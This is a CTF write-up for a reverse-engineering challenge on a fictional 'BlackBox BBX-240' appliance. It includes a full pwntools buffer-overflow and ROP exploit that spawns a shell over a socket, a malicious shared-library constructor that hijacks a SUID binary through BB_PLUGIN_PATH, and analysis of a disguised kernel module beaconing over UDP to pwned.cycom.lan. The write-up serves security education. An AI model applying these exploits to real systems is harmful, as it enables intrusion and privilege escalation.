

# CYCOM CTF - Reverse Engineering Writeup

## Context

An employee plugs their phone into their workstation, updates Linux over a public
Wi‑Fi, and the **BlackBox BBX‑240** telemetry appliance starts behaving strangely.
We are given:

| File                        | Expected role                   |
|-----------------------------|---------------------------------|
| `blackbox_fw_v1.cpio.gz`    | Appliance firmware image        |
| `bbctl`                     | Administration client           |
| `mgmtd`                     | Management daemon               |
| `huawei_cdc_ncm.ko`         | Suspicious kernel module        |

---

## STEP 1 - Firmware Recovery

### Identify the format

It's a `.cpio.gz`: decompress and extract with `cpio`, then list the contents:

```bash
$ zcat blackbox_fw_v1.cpio.gz | cpio -idmv
etc/device/device.conf
etc/device/telemetry.conf.enc
usr/sbin/updaterd
usr/share/blackbox/motd
33 blocks
```

### Read the plaintext files

```bash
$ cat etc/device/device.conf
device_id=bbx-240-telemetry
region=eu-west-3
support_channel=field-ops
update_service=updaterd

$ cat usr/share/blackbox/motd
BlackBox Field Appliance
Build: 1.7.12-eu
Status: telemetry stack degraded
Notice: legacy management profiles remain enabled for older field kits.

$ cat etc/device/telemetry.conf.enc
2f2325267624263d2e284b312e2526372c71243666352a2b3661724924322a2a23382e317...
```

The `.enc` file is **ASCII hex** (only `[0-9a-f]`), so it must be decryptable by `updaterd`.

### Identify the `updaterd` binary

```bash
$ file usr/sbin/updaterd
ELF 64-bit LSB pie executable, x86-64, ..., stripped
```

PIE + stripped, but small. Let's first look at the `.rodata` section with `readelf`:

```bash
$ readelf -p .rodata usr/sbin/updaterd

String dump of section '.rodata':
  [     4]  r
  [     6]  fopen
  [     c]  empty file\n
  [    1b]  %2x
  [    1f]  invalid hex input\n
  [    32]  --decrypt-config
  [    48]  usage: %s --decrypt-config <file>\n
  [    70]  BLACKBOX
```

The format is already clear:

* takes a `--decrypt-config <file>` flag,
* parses hex (`%2x`),
* likely uses the string `BLACKBOX` as a key.

We can test it directly:

```bash
$ ./usr/sbin/updaterd --decrypt-config etc/device/telemetry.conf.enc
mode=field
region=eu-west-3
operator=outsourced-noc
flag=CYCOM{firmware_recovery_beats_obscurity}
```

### Confirming the algorithm with `objdump`

To understand **why** it works, we disassemble the main routine
(at `0x1240`, the `jmp` target at the end of `main`):

```bash
$ objdump -d -M intel usr/sbin/updaterd --disassemble=0x1240
```

The condensed view:

```nasm
1242:  lea    rsi,[rip+0xdbb]          ; "r"
1256:  call   fopen@plt                ; fopen(file, "r")
126f:  mov    esi,0x1000               ; buflen = 4096
127a:  call   fgets@plt                ; fgets(buf, 4096, file)
1290:  lea    rsi,[rip+0xd81]          ; "\r\n"
129a:  call   strcspn@plt              ; strcspn(buf, "\r\n")
12a2:  mov    BYTE PTR [rsp+rax+0x810],0x0  ; null-terminate
12aa:  call   strlen@plt
12b5:  and    ebp,0x1                  ; reject if odd length
12b8:  jne    12fc

; --- hex decode loop: 2 chars → 1 byte ---
12e1:  lea    rdi,[r13+rbx*1+0x0]      ; &buf[i]
12eb:  lea    rsi,[rip+0xd29]          ; "%2x"
12f2:  call   sscanf@plt               ; sscanf(&buf[i], "%2x", &byte)
12d6:  mov    BYTE PTR [rsp+rax*1+0x10],dl  ; raw[i/2] = byte

; --- XOR loop: raw[i] ^= "BLACKBOX"[i % 8] ---
1336:  lea    rsi,[rip+0xd33]          ; "BLACKBOX"
1360:  mov    rcx,rbp
1367:  and    ecx,0x7                  ; i % 8
136a:  movzx  ecx,BYTE PTR [rsi+rcx*1] ; "BLACKBOX"[i % 8]
136e:  xor    BYTE PTR [rax],cl        ; raw[i] ^= key[i % 8]
1377:  jne    1360                     ; loop

1385:  call   fwrite@plt               ; fwrite(raw, stdout)
```

In other words:

```
plaintext[i] = unhex(cipher)[i] XOR "BLACKBOX"[i % 8]
```

### Reimplementing the decryption manually

```python
data = bytes.fromhex(open('etc/device/telemetry.conf.enc').read().strip())
key = b'BLACKBOX'
print(bytes(b ^ key[i%8] for i,b in enumerate(data)).decode())
```

```bash
$ python decrypt.py
mode=field
region=eu-west-3
operator=outsourced-noc
flag=CYCOM{firmware_recovery_beats_obscurity}
```

---

## STEP 2 - `mgmtd` Authentication Protocol

### First look at both binaries

```bash
$ file bbctl mgmtd
bbctl: ELF 64-bit LSB pie executable, x86-64, ..., stripped
mgmtd: ELF 64-bit LSB executable, x86-64, ..., not stripped
```

`mgmtd` is **not stripped**: all symbols are present, which is a gift.

```bash
$ nm mgmtd | grep -E " T | t "
000000000040154f t authorize_client
0000000000401a5e t create_server_socket
0000000000401220 t deregister_tm_clones
0000000000401210 T _dl_relocate_static_pie
0000000000401290 t __do_global_dtors_aux
0000000000401c20 T _fini
00000000004012c0 t frame_dummy
00000000004013de t generate_nonce
000000000040189b t handle_client
00000000004017c3 t handle_report
0000000000401000 T _init
00000000004012c6 T launch_maint_shell
0000000000401489 t legacy_token
0000000000401b4a T main
000000000040140a t normal_token
0000000000401332 T print_flag3
00000000004014c2 t recv_line
0000000000401250 t register_tm_clones
0000000000401722 t send_flag2
00000000004011e0 T _start
```

On the client side:

```bash
$ readelf -p .rodata bbctl

String dump of section '.rodata':
  [     4]  failed to read banner\n
  [    1b]  NONCE
  [    22]  send failed\n
  [    2f]  --legacy
  [    38]  getaddrinfo
  [    44]  unable to connect\n
  [    57]  AUTH_LEGACY %s\n
  [    67]  %08x%08x
  [    70]  AUTH %s\n
  [    80]  banner did not contain a nonce\n
  [    a0]  usage: %s [--legacy] <host> <port>\n
```

So:

* the server sends a banner containing `NONCE <hex>`,
* the client replies with `AUTH <token>` or `AUTH_LEGACY <token>`.

All the security relies on the token computation. Let's look at `mgmtd`.

### Reversing `generate_nonce` (0x4013de)

```bash
$ objdump -d -M intel mgmtd --disassemble=generate_nonce
4013e6:  mov    edi,0x0
4013eb:  call   time@plt                 ; nonce = time(NULL)
4013f0:  mov    DWORD PTR [rbp-0x4],eax
4013f3:  call   getpid@plt
4013f8:  shl    eax,0xb                  ; pid << 11
4013fb:  xor    DWORD PTR [rbp-0x4],eax  ; nonce ^= (pid << 11)
4013fe:  xor    DWORD PTR [rbp-0x4],0x4b1ac0de
401405:  mov    eax,DWORD PTR [rbp-0x4]
```

The C translation is straightforward:

```c
uint32_t generate_nonce(void) {
    uint32_t t = time(NULL);
    return t ^ (getpid() << 11) ^ 0x4b1ac0de;
}
```

The exact value doesn't matter: we don't need to guess it since the server
**gives it to us** in the banner.

### Reversing the token functions

The motd from Step 1 mentioned *"legacy management profiles remain enabled"*.
There are therefore two token computation paths: one for modern clients (`AUTH`)
and one for legacy clients (`AUTH_LEGACY`).

#### Reversing `legacy_token` (0x401489)

```bash
$ objdump -d -M intel mgmtd --disassemble=legacy_token
401498:  mov    eax,DWORD PTR [rbp-0x4]   ; eax = nonce
40149b:  xor    eax,0xc0deface            ; nonce ^ 0xc0deface
4014a0:  mov    ecx,eax
4014a2:  lea    rdx,[rip+0xbad]           ; "%08x"
4014ad:  mov    esi,0x9                   ; buflen = 9
4014ba:  call   snprintf@plt              ; snprintf(out, 9, "%08x", ...)
```

Trivial:

```c
int legacy_token(uint32_t nonce, char *out) {
    snprintf(out, 9, "%08x", nonce ^ 0xc0deface);
    return 0;
}
```

#### Reversing `normal_token` (0x40140a)

```bash
$ objdump -d -M intel mgmtd --disassemble=normal_token
40141c:  xor    eax,0x5a17c3e5           ; a = nonce ^ 0x5a17c3e5
401427:  add    eax,0x1337babe           ; b = nonce + 0x1337babe

; --- xorshift32 on a ---
401432:  shl    eax,0xd                  ; a ^= a << 13
401435:  xor    DWORD PTR [rbp-0x4],eax
40143b:  shr    eax,0x11                 ; a ^= a >> 17
40143e:  xor    DWORD PTR [rbp-0x4],eax
401444:  shl    eax,0x5                  ; a ^= a << 5
401447:  xor    DWORD PTR [rbp-0x4],eax

; --- LCG on b ---
40144d:  imul   eax,eax,0x41c64e6d       ; b = b * 0x41c64e6d + 0x3039
401453:  add    eax,0x3039

401461:  lea    rsi,[rip+0xbe5]          ; "%08x%08x"
401474:  mov    esi,0x11                 ; buflen = 17
401481:  call   snprintf@plt
```

More complex, but we recognize a **xorshift32** followed by a **LCG**
(the constant `0x41c64e6d` is the classic LCG multiplier used by `rand()`).

```c
int normal_token(uint32_t nonce, char *out) {
    /* xorshift32 */
    uint32_t a = nonce ^ 0x5A17C3E5;
    a ^= a << 13;
    a ^= a >> 17;
    a ^= a << 5;

    /* LCG */
    uint32_t b = (nonce + 0x1337BABE) * 0x41C64E6D + 0x3039;

    return snprintf(out, 0x11, "%08x%08x", a, b);
}
```

`AUTH` requires a xorshift32 + LCG. Doable, but pointless since the service
accepts legacy profiles.

### The easy path: `AUTH_LEGACY`

```python
nonce = int(banner_nonce, 16)
token = f"{nonce ^ 0xc0deface:08x}"
sock.send(f"AUTH_LEGACY {token}\n".encode())
# → "OK authenticated (legacy profile)"
```

Once logged in, the `GETFLAG2` command reads `/opt/blackbox/runtime/flag2.txt`.

---

## STEP 3 - Buffer Overflow in `handle_report`

### Listing available commands

Once authenticated, the menu offers `INFO`, `GETFLAG2`, `REPORT <len>`, `QUIT`.
The only one that reads user-supplied data is `REPORT`. Obvious target.

### Binary mitigations

```bash
$ checksec file mgmtd -o yaml
- checks:
    canary: No Canary Found        ← no stack canary
    cfi: NO SHSTK & NO IBT
    fortified: "0"
    fortify_source: "No"
    fortifyable: "2"
    nx: NX enabled                  ← non-executable stack
    pie: PIE Disabled               ← fixed addresses
    relro: Partial RELRO
    rpath: No RPATH
    runpath: No RUNPATH
    symbols: 71 symbols
  name: mgmtd
```

No PIE → binary addresses are known. No canary in `handle_report`
(visible in the disasm: no `__stack_chk_fail` call).

### Reversing `handle_report` (0x4017c3)

```bash
$ objdump -d -M intel mgmtd --disassemble=handle_report
4017c7:  sub    rsp,0x120                 ; allocates 288-byte frame
4017db:  mov    DWORD PTR [rbp-0x4],0x0   ; user_len = 0
4017e2:  lea    rax,[rbp-0x110]           ; buf (256 bytes)
4017e9:  mov    edx,0x100
4017f6:  call   memset@plt                ; memset(buf, 0, 256)
4017ff:  lea    rcx,[rip+0x938]           ; "REPORT %u"
401818:  call   __isoc23_sscanf@plt       ; sscanf(line, "REPORT %u", &user_len)
401857:  call   dprintf@plt               ; dprintf(fd, "READY\n")
40185c:  mov    eax,DWORD PTR [rbp-0x4]   ; eax = user_len (user-controlled)
40185f:  mov    edx,eax                   ; arg3 = user_len
401861:  lea    rsi,[rbp-0x110]           ; arg2 = buf (256 bytes)
40186e:  mov    ecx,0x100                 ; arg4 = MSG_WAITALL
401875:  call   recv@plt                  ; recv(fd, buf, user_len, MSG_WAITALL)
```

Bug: the **`recv` size comes from the user**, but the buffer is only
256 bytes. Classic stack overflow.

```c
void handle_report(int fd, const char *line) {
    uint8_t  buf[0x100];
    uint32_t user_len = 0;

    memset(buf, 0, sizeof(buf));

    if (sscanf(line, "REPORT %u", &user_len) != 1) {
        dprintf(fd, "ERR usage: REPORT <len>\n");
        return;
    }

    dprintf(fd, "READY\n");
    recv(fd, buf, user_len, MSG_WAITALL);  // ← unbounded user_len: BOF
    dprintf(fd, "stored %u bytes\n", user_len);
}
```

### Offset calculation

Watch out for the trap: `sub rsp, 0x120` reserves the **total frame** of
the function (288 bytes), not the buffer size. `recv` does not write at the
start of the frame, it writes into `buf` which sits at `[rbp-0x110]`.
The frame layout:

```
                  ┌───────────────────────────┐
rbp - 0x120       │  16 bytes lower padding   │ ← rsp points here (never touched by recv)
rbp - 0x110       │  buf[0x100] (256 bytes)   │ ← recv writes FROM HERE
rbp - 0x10        ├───────────────────────────┤
                  │  12 bytes padding         │
rbp - 0x04        │  user_len (4 bytes)       │
rbp               │  saved RBP (8 bytes)      │ ← offset 0x110 from buf
rbp + 0x08        │  return addr (8 bytes)    │ ← offset 0x118 from buf
                  └───────────────────────────┘
```

So from the **start of the buffer** (`rbp-0x110`):

| Offset       | Target       |
|--------------|--------------|
| `0x110` (272) | saved RBP   |
| `0x118` (280) | return address |

### Function `launch_maint_shell` (0x4012c6)

IDA decompilation:

```c
int launch_maint_shell()
{
  int result; // eax

  result = g_current_client_fd;
  if ( g_current_client_fd >= 0 )
  {
    dup2(g_current_client_fd, 0);
    dup2(g_current_client_fd, 1);
    dup2(g_current_client_fd, 2);
    return execl("/bin/sh", "sh", 0);
  }
  return result;
}
```

This function needs no comment: it redirects standard file descriptors
(stdin, stdout, stderr) to the socket and spawns `/bin/sh`. No real shellcode needed.

### Finding a `ret` gadget for alignment

`launch_maint_shell` calls `dup2`/`execl` which require `RSP` 16-byte aligned
or they'll crash. We insert an intermediate `ret` to adjust by 8 bytes:

```bash
$ ROPgadget --binary mgmtd --only "ret"
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401860 : ret 0x8d48
0x000000000040151b : ret 0xb60f
0x0000000000401b3a : ret 0xfff5

$ objdump -d -M intel mgmtd | grep -B 8 "401016:"
0000000000401000 <_init>:
  401000:  48 83 ec 08             sub    rsp,0x8
  401004:  48 8b 05 d5 2f 00 00    mov    rax,QWORD PTR [rip+0x2fd5]
  40100b:  48 85 c0                test   rax,rax
  40100e:  74 02                   je     401012 <_init+0x12>
  401010:  ff d0                   call   rax
  401012:  48 83 c4 08             add    rsp,0x8
  401016:  c3                      ret
```

The `ret` at `0x401016` (end of `_init`, a single `0xC3` byte) does the job.

### Payload

```python
from pwn import *

RET   = 0x401016          # ret gadget (16-byte alignment)
SHELL = 0x4012c6          # launch_maint_shell

payload  = b"A" * 0x110   # fill up to saved RBP
payload += p64(0)         # fake saved RBP
payload += p64(RET)       # alignment
payload += p64(SHELL)     # → /bin/sh on the socket
```

### Full exploit

```python
from pwn import *

r = remote(...)

# 1. grab the nonce
banner = r.recvuntil(b"LEGACY\n")
nonce  = int([l for l in banner.split(b"\n") if b"NONCE" in l][0].split()[-1], 16)

# 2. legacy auth
r.sendline(f"AUTH_LEGACY {nonce ^ 0xc0deface:08x}".encode())
r.recvline()
r.recvuntil(b"blob.\n")

# 3. send oversized report
payload = b"A"*0x110 + p64(0) + p64(0x401016) + p64(0x4012c6)
r.sendline(f"REPORT {len(payload)}".encode())
r.recvline()
r.send(payload)
r.interactive()
```

### Flag 3

```bash
service@bbx:/$ cat /opt/blackbox/runtime/flag3.txt
CYCOM{...}
```

---

## STEP 4 - Privilege Escalation: `service` → `admin`

### Enumerating from the `service` shell

```bash
$ id
uid=998(service) gid=998(service) ...

$ cat /etc/passwd | grep -E 'admin|service'
admin:x:999:999::/home/admin:/bin/bash
service:x:998:998::/home/service:/bin/bash
```

The goal is to reach the `admin` account. In Step 2, `strings mgmtd` told us
the application lives in `/opt/blackbox/`, the same place we found flag3.
Let's dig into that tree:

```bash
$ ls -la /opt/blackbox/bin/
total 36
drwxr-xr-x 2 root  root   ...  .
drwxr-xr-x 5 root  root   ...  ..
-rwsr-xr-x 1 admin admin 16992 diagtool      ← 's' instead of 'x' = SUID
-rwxr-xr-x 1 root  root  ...   mgmtd

$ ls -la /home/admin/
-rw------- 1 admin admin   48 flag4.txt
drwxr-xr-x 2 admin admin  ...  .blackbox
```

The interesting binary is `/opt/blackbox/bin/diagtool`: it's SUID admin.
There is a `flag4.txt` in admin's home.

### Analyzing `diagtool`

```bash
$ file /opt/blackbox/bin/diagtool
ELF 64-bit LSB pie executable, x86-64, ..., not stripped

$ /opt/blackbox/bin/diagtool
usage:
  diagtool help
  diagtool repair <profile>

$ nm /opt/blackbox/bin/diagtool
0000000000001330 t cmd_repair
00000000000014b0 t decode_blob
0000000000002110 r g_blob_key

$ strings /opt/blackbox/bin/diagtool
/opt/blackbox/plugins
BB_PLUGIN_PATH
libbbrepair.so
%s/%s
dlopen: %s
dlsym: %s
run
loading repair profile: %s
```

Everything is revealed without even disassembling:

* the `repair` command dynamically loads `libbbrepair.so`,
* the path comes from `BB_PLUGIN_PATH` (env var), falling back to `/opt/blackbox/plugins`,
* then `dlopen` + `dlsym("run")`.

### Confirming with `objdump`

```bash
$ objdump -d -M intel /opt/blackbox/bin/diagtool --disassemble=cmd_repair
1337:  lea    rdi,[rip+...]            ; "BB_PLUGIN_PATH"
135a:  call   getenv@plt               ; getenv("BB_PLUGIN_PATH")
1362:  call   getegid@plt
1369:  call   setgid@plt               ; setgid(getegid())
1376:  call   geteuid@plt
137d:  call   setuid@plt               ; setuid(geteuid())
13ad:  lea    rdx,[rip+...]            ; "%s/%s"
13bc:  call   snprintf@plt             ; "$PATH/libbbrepair.so"
13c9:  call   dlopen@plt               ; dlopen(path, RTLD_NOW)
13e4:  call   dlsym@plt                ; dlsym(handle, "run")
1410:  call   r13                      ; run(profile)
```

→ `setuid(geteuid())` makes the process **permanently** admin (not just
effective), then `dlopen` loads a `.so` whose path we control via an env var.

### The vulnerability

* `BB_PLUGIN_PATH` is a **custom** env variable.
* We could implement the `run` function in our `.so`, but it's not even
  necessary: `dlopen` automatically executes **constructors**
  (`__attribute__((constructor))`) from the loaded `.so`.
* Therefore: a malicious `.so` with a constructor runs with admin privileges,
  **before** `dlsym("run")` is even called.

### Exploit

```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void pwn(void) {
    setuid(geteuid());
    setgid(getegid());
    FILE *f = fopen("/home/admin/flag4.txt", "r");
    char buf[256];
    while (f && fgets(buf, sizeof buf, f)) fputs(buf, stdout);
    fflush(stdout);
}
```

```bash
$ gcc -shared -fPIC -o /tmp/libbbrepair.so /tmp/evil.c
$ BB_PLUGIN_PATH=/tmp /opt/blackbox/bin/diagtool repair x
CYCOM{setuid_plugin_paths_are_still_a_disaster}
dlsym: /tmp/libbbrepair.so: undefined symbol: run     ← doesn't matter, we have the flag
```

---

## STEP 5 - Decoding `telemetry.blob`

### Overview

```bash
$ ls -l /home/admin/.blackbox/telemetry.blob
-rw------- 1 admin admin 156 telemetry.blob

$ cat /home/admin/.blackbox/telemetry.blob
08a090a1818a32c2a1b38cfce46da71646a62df5b2c3a01191d292fa8b4bf66467d...

$ strings /opt/blackbox/bin/diagtool | grep -i blob
loading blob:
empty blob
invalid blob
```

`diagtool` clearly knows how to decode these blobs. We already have the
`decode_blob` symbol (binary is not stripped) → let's look at the routine directly.

### Finding the key in `.rodata`

```bash
$ nm /opt/blackbox/bin/diagtool
0000000000002110 r g_blob_key

$ readelf -p .rodata /opt/blackbox/bin/diagtool
 [ 110]  blackbox-telemetry
```

Key: `"blackbox-telemetry"` (18 bytes).

### Reversing `decode_blob`

```bash
$ objdump -d -M intel /opt/blackbox/bin/diagtool --disassemble=decode_blob
```

Three phases:

1. **Phase 1** - file read + hex decode (identical to `updaterd`).
2. **Phase 2** - byte 0, special case:
   ```nasm
   15da:  ror  al,3
   15dd:  xor  eax,0x62
   ```
   ```c
   raw[0] = ror8(raw[0], 3) ^ 0x62;
   ```
3. **Phase 3** - remaining bytes, loop with a counter and a key index:
   ```nasm
   15ef:  mov    r8d,0xd                       ; counter = 13
   15fd:  mov    esi,0x7                       ; key_step = 7
   160c:  movabs r11,0xe38e38e38e38e38f        ; magic for div/18
   1623:  movzx  ecx,BYTE PTR [rdi]            ; ecx = raw[i]
   162d:  ror    cl,0x3                        ; cl = ROR(raw[i], 3)
   1645:  xor    cl,BYTE PTR [rbx+rdx*1]       ; ^= key[key_step % 18]
   1648:  xor    ecx,r8d                       ; ^= counter
   164b:  add    r8d,0xd                       ; counter += 13
   163b:  add    rsi,0x7                       ; key_step += 7
   ```

> Note: `0xe38e38e38e38e38f` is the **compiler magic constant for division by 18**.
> It's just `key_step % 18` computed without a `div` instruction.
> See https://godbolt.org/z/xoGEbK8z7.

So:

```c
const char key[18] = "blackbox-telemetry";

raw[0] = ror8(raw[0], 3) ^ 0x62;

uint32_t counter  = 13;
size_t   key_step = 7;
for (size_t i = 1; i < n; i++) {
    raw[i] = ror8(raw[i], 3) ^ key[key_step % 18] ^ (counter & 0xff);
    counter  += 13;
    key_step += 7;
}
```

### Script

```python
def ror8(b, c): return ((b >> c) | (b << (8 - c))) & 0xff

key = b"blackbox-telemetry"
raw = bytearray(bytes.fromhex(open("telemetry.blob").read().strip()))

raw[0] = ror8(raw[0], 3) ^ 0x62

counter, key_step = 13, 7
for i in range(1, len(raw)):
    raw[i] = ror8(raw[i], 3) ^ key[key_step % 18] ^ (counter & 0xff)
    counter  += 13
    key_step += 7

print(raw.decode())
```

```text
campaign=warehouse-17
operator=sable-fog
flag=CYCOM{root_caused_the_incident}
```

---

## Bonus - The `huawei_cdc_ncm.ko` Kernel Module

### Identification

```bash
$ file huawei_cdc_ncm.ko
ELF 64-bit LSB relocatable, x86-64, ..., with debug_info, not stripped

$ modinfo huawei_cdc_ncm.ko
license:        GPL
description:    USB CDC NCM host driver with encapsulated protocol support
author:         Enrico Mioso <mrkiko.rs@gmail.com>
depends:        cdc_ncm,cdc-wdm,usbnet
vermagic:       6.17.0-22-generic SMP preempt mod_unload modversions
```

Metadata from a legitimate Huawei module → potential camouflage. Let's check
the symbols and especially **the imports**.

### Suspicious imports for a USB driver

```bash
$ nm huawei_cdc_ncm.ko | grep '^ *U'
                 U cdc_ncm_bind_common
                 U cdc_ncm_rx_fixup
                 U cdc_ncm_tx_fixup
                 U cdc_ncm_unbind
                 U init_net               ← ?!
                 U kernel_sendmsg         ← ?!
                 U sock_create_kern       ← ?!
                 U sock_release           ← ?!
                 U strnlen
                 ...
```

A USB driver has **no business** creating kernel sockets and sending network
packets. That's as suspicious as a calendar app importing a crypto module:
technically possible, but worth investigating.

### Spotting the suspicious function

```bash
$ nm huawei_cdc_ncm.ko | grep -E ' T | t '
00000000000004f0 t huawei_cdc_ncm_bind
0000000000000010 t huawei_cdc_ncm_driver_exit
0000000000000010 t huawei_cdc_ncm_driver_init
0000000000000210 t huawei_cdc_ncm_manage_power
0000000000000090 t huawei_cdc_ncm_resume
0000000000000150 t huawei_cdc_ncm_suspend
0000000000000010 t huawei_cdc_ncm_unbind
00000000000005c0 t huawei_cdc_ncm_wdm_manage_power
00000000000002b0 t huawei_debug_net_probe       ← unexpected name for a USB driver
```

`huawei_debug_net_probe` stands out. Let's verify it's in the normal
execution path:

```bash
$ objdump -d -M intel huawei_cdc_ncm.ko | grep -B1 "huawei_debug_net_probe>$"
 55b:  e8 50 fd ff ff       call   2b0 <huawei_debug_net_probe>
```

It's called by `huawei_cdc_ncm_bind` → executed on every driver attachment.

### Disassembling `huawei_debug_net_probe`

```bash
$ objdump -d -M intel huawei_cdc_ncm.ko --disassemble=huawei_debug_net_probe
318:  movabs rax,0x635f696577617568         ; "huawei_c"
322:  mov    QWORD PTR [rbp-0x2f],rax
326:  movabs rax,0x6d636e5f636463           ; "cdc_ncm\0"
330:  mov    QWORD PTR [rbp-0x28],rax       ; "huawei_cdc_ncm"

; --- byte-by-byte loop over a .rodata region ---
334:  movzx  r12d,BYTE PTR [rbx+0x0]        ; read one byte
33f:  xor    r12d,0x11                      ; XOR 0x11
343:  add    r12d,0x20                      ; ADD 0x20
351:  mov    BYTE PTR [rbx+0x0],r12b        ; write back in place
358:  add    rbx,0x1
35c:  cmp    rbx,0xf                        ; 15 iterations
360:  jne    334

; --- create UDP socket + send ---
397:  call   sock_create_kern               ; AF_INET, SOCK_DGRAM, IPPROTO_UDP
43b:  call   kernel_sendmsg
447:  call   sock_release
```

**The loop at 334-360 screams "obfuscation"**:

1. Short loop over individual bytes (`movzx ... mov`) → byte-by-byte processing
2. XOR with a constant + ADD with a constant → classic deobfuscation pattern
3. In-place write to a read-only region → in-memory decryption
4. Fixed iteration count (15) → fixed-size buffer at `[rbx]`

We now have a **precise hypothesis**: there are 15 bytes somewhere in `.rodata`
(at the address pointed to by `rbx`) that will be transformed into something
readable. Let's find them.

### Reading the obfuscated blob

```bash
$ nm huawei_cdc_ncm.ko | grep -E '^0+130'
0000000000000130 r huawei_usb_state_flags

$ objdump -s -j .rodata huawei_cdc_ncm.ko | grep '0130 '
 0130 41465f54 551f5248 525e5c1f 5d505f    AF_TU.RHR^\.]P_
```

Exactly 15 bytes, as expected: `huawei_usb_state_flags`. The mix of
printable ASCII and `0x1f` bytes confirms this is encoded content,
not a legitimate string.

### Deobfuscating

Reconstructed algorithm: `byte = (byte ^ 0x11) + 0x20`, over 15 bytes.

```python
buffer = bytes.fromhex('41 46 5f 54 55 1f 52 48 52 5e 5c 1f 5d 50 5f')
print(bytes(((b ^ 0x11) + 0x20) & 0xff for b in buffer).decode())
```

```bash
$ python deobf.py
pwned.cycom.lan
```

The module exfiltrates to C2 `pwned.cycom.lan` via UDP. Flag: `CYCOM{pwned.cycom.lan}`

---

## Attack Chain



---

## Conclusion

I really enjoyed this challenge because it covers a wide variety of vulnerabilities
(XOR cipher, auth bypass, buffer overflow, ROP, SUID abuse, shared library hijacking,
XOR obfuscation) in a realistic scenario. Running multiple related challenges on the
same theme is a refreshing change from standalone CTF/rootme tasks.
Seeing an attack unfold step by step across a full system is genuinely satisfying.
